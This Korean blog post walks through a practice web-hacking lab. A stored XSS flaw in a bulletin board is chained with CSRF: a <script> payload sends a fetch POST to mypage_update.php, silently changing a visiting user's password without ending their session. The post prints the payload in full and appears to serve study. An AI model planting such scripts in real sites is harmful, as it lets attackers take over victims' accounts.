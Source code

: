 ```yaml
---
title: "CSRF 실습 2"
excerpt: "CSRF 실습 2번 문제를 풀어보자."
tags:
    - XSS
    - CSRF
    - 웹 해킹
last_modified_at: 2021-05-23T09:13:00-05:00
---
```

## CSRF 실습 2번 문제 설
- CSRF 1번 문제와 비슷하게 계정의 비밀번호를 변경하는 문제이다.<br>![Pasted image 20230523031645](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/e73d2fca-6932-4692-b5bb-527d33c09b2f)

## 서버 분석 및 취약점 찾기

### 비밀번호 변경 요청
- 오직 POST 요청으로만 비밀번호를 변경할 수 있다.

### 게시글 ( Stored XSS )
- 게시글 제목과 게시글 본문에 XSS 취약점이 존재한다.
- POC 코드 `alert(1)` 을 통해 확인이 가능하다.
- 게시글 제목<br>![Pasted image 20230523125242](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/14ea3881-b828-4647-9e7d-7c7e7599e65b)<br>![Pasted image 20230523125304](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/74654dbd-7f59-40c7-9efd-a90a09ff0474)
- 게시글 본문<br>![Pasted image 20230523125334](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/55f3ac55-414b-4586-9216-90b486174bef)<br>![Pasted image 20230523125351](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/780e58ae-1d6b-4801-b0a7-70bfb49d052a)
- script 태그 부분의 내용은 게시글에서 안보인다.<br>![Pasted image 20230523125414](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/4fb232eb-2d4d-4883-9d73-81ef936569bd)

### 비밀번호 변경
- 비밀번호 변경을 한 후 `location.href` 를 통해 클라이언트 측에서 로그아웃 요청을 서버로 보낸다.
- 즉 서버에서는 클라이언트 측에서 로그아웃 신호를 보내주기 전 까지는 세션을 만료 시키지 않는다.

```js
location.href='index.php?session=true';
```



## 공격 시나리오

### XSS(게시판) + CSRF(비밀번호 변경 요청) 취약점 이용하기.

#### 최종 목표
- 사용자자 공격자가 작성한 게시글에 방문하면 사용자도 모르게 자동으로 비밀번호가 바뀐다. 하지만 사용자는 정상적으로 게시글을 방문한 것 처럼 느낀다. 즉 사용자는 로그아웃 하고 다시 로그인할 때 까지 비밀번호가 변경되었다는 것을 알아차리기 힘들다.

#### 비밀번호 변경 요청 동작 방식 ( 예측 )
1. POST 요청으로 사용자가 입력한 비밀번호를 전송하여 변경한다.
2. 사용자는 응답으로 로그아웃을 하라는 링크를 받는다.
3. 사용자는 서버로 로그아웃 요청을 보내어 로그아웃을 진행한다.

- 비밀번호 변경 POST 요청<br>![Pasted image 20230523124958](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/8adbbd7e-51cf-448e-9da7-d3b4e5ebb87b)


#### 시나리오
1. 공격자는 악성 스크립트가 담긴 게시글을 작성한다.
2. 사용자는 로그인하여 공격자의 게시글을 확인한다.
3. 사용자가 공격자의 게시글에 방문하면 악성 스크립트가 동작하여 사용자의 비밀번호를 공격자가 설정한 비밀번호로 변경한다.
4. 비밀번호가 변경 되었어도 사용자가 서버로 로그아웃 요청을 보내지 않아 계속 서비스를 이용할 수 있다.

#### 공격 스크립트

##### 스크립트로 POST 요청 보내기
- fetch 함수를 이용하였다.
- fetch를 이용하여 post 요청을 보내면 응답으로 `location.href` 을 받지만 실행되지 않아 자동으로 로그아웃 되는 것을 방지할 수 있다. ( 세션 만료 방지 )

```html
<script>
fetch("mypage_update.php",{
	method: "POST",
	headers: {
		"Content-Type": "application/x-www-form-urlencoded"
	},
	body: "id=&info=&pw=2222"
});
</script>
```


##### 최종 공격 스크립트
- 자동으로 비밀번호 변경 요청을 서버로 보내게 된다.

```html
<script>
fetch("mypage_update.php",{
	method: "POST",
	headers: {
		"Content-Type": "application/x-www-form-urlencoded"
	},
	body: "id=&info=&pw=2222"
});
</script>
```



#### 공격시작
1. 공격자는 악성 스크립트가 담긴 게시글 작성한다.<br>![Pasted image 20230523125941](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/a955160b-60a8-4575-bd87-548d119377ee)
2. 게시글을 저장해준다.<br>![Pasted image 20230523130032](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/391c5b4b-caba-43fe-a73c-46d69b1768ad)
3. 사용자가 공격자가 작성한 게시글에 방문하게 되면 자동으로 비밀번호가 바뀌게 된다.<br>![Pasted image 20230523130148](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/6154015a-65cc-4da4-88af-ed3e60b24fa6)



## 결론
- Javascript의 fetch 함수를 이용하여 POST 요청을 서버에 보내고 응답을 받아온다.
- 사용자는 일반적인 게시글을 방문한 것 처럼 느끼게 된다. 하지만 실제로는 게시글 방문과 동시에 비밀번호 요청이 가는 것을 확인할 수 있다.<br>![Pasted image 20230523130254](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/b90ae746-4800-4425-99a2-ba2a32be7fff)

## 참고 사이트
- [자바스크립트의 fetch() 함수로 원격 API 호출하기](https://www.daleseo.com/js-window-fetch/)
- [fetch 함수: POST Request (velog.io)](https://velog.io/@seoltang/fetch-POST-Request)
- [자바스크립트 fetch로 formdata post 보내기 (tistory.com)](https://sisiblog.tistory.com/261)

